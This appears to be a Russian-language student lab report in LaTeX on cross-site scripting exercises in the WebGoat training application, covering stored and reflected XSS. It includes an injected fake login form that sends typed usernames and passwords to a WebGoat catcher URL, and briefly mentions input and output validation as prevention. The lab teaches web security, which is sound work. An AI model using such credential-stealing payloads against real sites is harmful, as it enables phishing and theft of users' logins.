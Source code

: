 \documentclass{article}
\begin{document}
\subsection{Межсайтовое выполнение сценариев}

\begin{itemize}
	
	\item В первом задании нужно ввести в поле поиска вредоносный код, например, такой:
	
	\begin{verbatim}
	<form>
	<form name="stealer">
	Username: <input type="text" name="username"><br>
	Password: <input type="password" name="password">
	<input type="submit" value="Submit" onclick=<script><img src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+ document.stealer.username.value + "&password=" + document.stealer.password.value + "">
	</script>
	</form>
	\end{verbatim}
	
	После чего появяться поля, где нужно будет ввести логин и пароль, которые будут переданы на нужный сервер.
	
	\item Хранимые Stored XSS
	
	Хранимый XSS является наиболее разрушительным типом атаки. Хранимый XSS возможен, когда злоумышленнику удается внедрить на сервер вредоносный код, выполняющийся в браузере каждый раз при обращении к оригинальной странице. Классическим примером этой уязвимости являются форумы, на которых разрешено оставлять комментарии в HTML формате без ограничений, а также другие сайты Веб 2.0 (блоги, вики, имиджборд), когда на сервере хранятся пользовательские тексты и рисунки. Скрипты вставляются в эти тексты и рисунки.
	
	В данном случае в одном из полей, которое храниться в базе данных и выводиться у других пользоателей нужно указать вредоностный javascript код в тэге <script>.
	
	Для предотвращения можно сделать валидацию по вооду данных и валидацию по выводу на сервере.
	
	\item Отраженные Reflected XSS
	
	Атака, основанная на отражённой уязвимости, на сегодняшний день является самой распространенной XSS-атакой. Эти уязвимости появляются, когда данные, предоставленные веб-клиентом, чаще всего в параметрах HTTP-запроса или в форме HTML, исполняются непосредственно серверными скриптами для синтаксического анализа и отображения страницы результатов для этого клиента, без надлежащей обработки. Отражённая XSS-атака срабатывает, когда пользователь переходит по специально подготовленной ссылке.
	
	
\end{itemize}
\end{document}
